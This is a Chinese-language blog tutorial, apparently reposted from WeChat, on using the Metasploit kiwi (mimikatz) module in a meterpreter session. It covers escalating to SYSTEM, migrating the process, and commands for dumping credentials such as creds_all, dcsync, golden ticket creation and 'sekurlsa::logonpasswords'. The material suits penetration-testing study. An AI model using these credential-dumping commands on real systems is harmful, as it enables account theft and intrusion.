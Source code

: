 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247485520&idx=1&sn=afe7ab1dd663bf8dcc9811c840f33614&chksm=eaad886dddda017b5ca9f42ac926ec8abdb42e958561924144f79aad5969c7310bf059e9ba03&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_svg/iaRlzG8zy7BvRMzJGOiceBHhbWU2ah6heQIpA6vRFSf5MqB7kpysUPMEKgXTZPLFWQTEUFj85jDic0ZaHicKGMKIPFNglRYkfrjA/640?wx_fmt=svg)

**目录**

![](https://mmbiz.qpic.cn/mmbiz_svg/iaRlzG8zy7BvRMzJGOiceBHhbWU2ah6heQPRxy4CqRJhPx9DlAnUn1Bp3z4m11DzOV3LbvPkiad3fbPDkvXzQYDnD7MicRVjZWic1/640?wx_fmt=svg)

1.kiwi 模块

2.kiwi 模块的使用

   2.1 creds_all

   2.1 kiwi_cmd

  

**1.kiwi 模块**

使用 kiwi 模块需要 system 权限，所以我们在使用该模块之前需要将当前 MSF 中的 shell 提升为 system。提到 system 有两个方法，一是当前的权限是 administrator 用户，二是利用其它手段先提权到 administrator 用户。然后 administrator 用户可以直接 getsystem 到 system 权限。

提权到 system 权限

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3v1pW46gVhzv3Ol4vmOVicxtuhkomvzlhLiaYBaKxiaNZRpgVpF6fjeblCQ/640?wx_fmt=png)

进程迁移

kiwi 模块同时支持 32 位和 64 位的系统，但是该模块默认是加载 32 位的系统，所以如果目标主机是 64 位系统的话，直接默认加载该模块会导致很多功能无法使用。所以如果目标系统是 64 位的，则必须先查看系统进程列表，然后将 meterpreter 进程迁移到一个 64 位程序的进程中，才能加载 kiwi 并且查看系统明文。如果目标系统是 32 位的，则没有这个限制。  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3vaRCmDS0fDpBZ2JgDGl0hSQWuvxwmwicCPrvfHmZueleOQicvSZvxGCZA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3vFYAa8BLJjOD7ktgdKsmFpZVmHWiaze4Z03HXUVQyDGY5zIFDZPRYwyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3vqU75r4tsWV0MODZsIjcIJBVfz6PKibP6SUzyhNicWZyzaicYgxicrLy5EA/640?wx_fmt=png)

**2.kiwi 模块的使用**

加载 kiwi 模块  

```
load kiwi
```

查看 kiwi 模块的使用  

```
help kiwi
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3vibCSBicxsqibbIxic3S3AXjMC9vuogj9ibS86oMDZoiawoz2ra4Ovia5hQZ0g/640?wx_fmt=png)

```
creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码
```

creds_all

该命令可以列举系统中的明文密码

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3vSyLw71AhyaQRDrwf2ACknTBibuSbRwYxjxrUDAvYGlJ6gdyUNxOlxhQ/640?wx_fmt=png)

kiwi_cmd

kiwi_cmd 模块可以让我们使用 mimikatz 的全部功能，该命令后面接 mimikatz.exe 的命令

```
kiwi_cmd sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dwtuWC0WqZzuqI4W5byp3vQ1Yr4ymuCykCGR9ibibDHDtYrWLNwfHVlO1jURTZ5HKxPBibhaZ58IHmw/640?wx_fmt=png)

其他模块的用法后续会在原文慢慢更新。

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2ckkbwTsBvnDJpb89o8WMxvAKOaVnz60hOe7y3wAHiclddyK53lpEKIQlx4DKOq6EojHibVicgibDB2aQ/640?wx_fmt=gif)

来源：谢公子的博客

责编：Shawn

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2edCjiaG0xjojnN3pdR8wTrKhibQ3xVUhjlJEVqibQStgROJqic7fBuw2cJ2CQ3Muw9DTQqkgthIjZf7Q/640?wx_fmt=png)

如果文中有错误的地方，欢迎指出。有想转载的，可以留言我加白名单。

最后，欢迎加入谢公子的小黑屋（安全交流群）(QQ 群：783820465)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SjCxEtGic0gSRL5ibeQyZWEGNKLmnd6Um2Vua5GK4DaxsSq08ZuH4Avew/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)